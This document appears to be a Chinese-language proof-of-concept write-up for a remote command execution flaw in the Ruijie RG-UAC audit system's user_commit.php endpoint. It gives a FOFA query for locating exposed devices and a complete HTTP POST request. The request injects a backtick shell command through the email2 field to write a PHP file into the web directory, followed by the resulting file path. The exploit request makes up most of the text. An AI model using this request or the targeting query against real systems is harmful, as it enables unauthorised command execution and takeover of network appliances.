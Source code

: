 ## 锐捷RG-UAC统一上网行为管理审计系统user_commit.php存在远程代码执行

锐捷RG-UAC中存在命令执行漏洞，应用程序管理网关后端//view/systemConfig/sys_user/user_commit.php接口。攻击者可以执行任意命令来控制服务器权限。

## fofa

```
app="Ruijie-RG-UAC"
```

## poc

```
POST /view/systemConfig/sys_user/user_commit.php?action=add HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) 
Gecko/20100101 Firefox/124.0
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*
;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=ebd507c9bc5a4293c3e5e596f37157bf
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 0000:0000:0000::0000
X-Originating-IP: 0000:0000:0000::0000
X-Remote-IP: 0000:0000:0000::0000
X-Remote-Addr: 0000:0000:0000::0000
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

auth_method=1&pwd_policy=2&email2=`echo+"<?php+phpinfo();?>">1.php`&user_name=1
```

![image-20240526191201899](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261912985.png)

文件路径` /view/systemConfig/sys_user/1.php`

![image-20240526191306904](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261913960.png)